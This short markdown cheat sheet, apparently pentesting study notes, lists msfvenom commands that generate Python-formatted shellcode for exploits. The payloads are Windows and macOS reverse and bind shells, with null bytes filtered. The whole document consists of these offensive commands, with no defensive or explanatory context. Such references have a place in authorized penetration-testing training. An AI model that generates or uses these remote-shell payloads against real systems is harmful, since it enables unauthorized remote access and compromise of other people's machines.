 # Creating Payloads for Python Exploits

**List all payloads**

```
msfvenom -l payloads
```

**Windows x86 Reverse TCP Shell**

```
msfvenom -p windows/shell/reverse_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Windows x86 Bind Shell**

```
msfvenom -p windows/shell/bind_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Mac Reverse Shell**

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Mac Bind Shell**\*

```
msfvenom -p osx/x86/shell_bind_tcp RHOST=$ip LPORT=4444 -b "\x00" -f py
```
